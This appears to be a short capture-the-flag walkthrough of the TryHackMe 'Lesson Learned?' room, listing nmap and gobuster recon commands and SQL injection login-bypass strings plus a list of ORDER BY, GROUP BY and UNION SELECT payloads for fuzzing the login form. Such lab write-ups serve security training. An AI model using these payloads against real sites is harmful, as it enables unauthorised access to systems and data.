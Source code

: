 # Lesson Learned?

**Room Link:** [https://tryhackme.com/room/lessonlearned](https://tryhackme.com/room/lessonlearned)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Browser**

<figure><img src="../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Option #1&#x20;

Used this page to collect possible injections

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
```

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>



Add list above as payload in position 1 and 2

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Username: 1' UNION SELECT null-- -
Password: 1' GROUP BY 2--+
```



<figure><img src="../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>










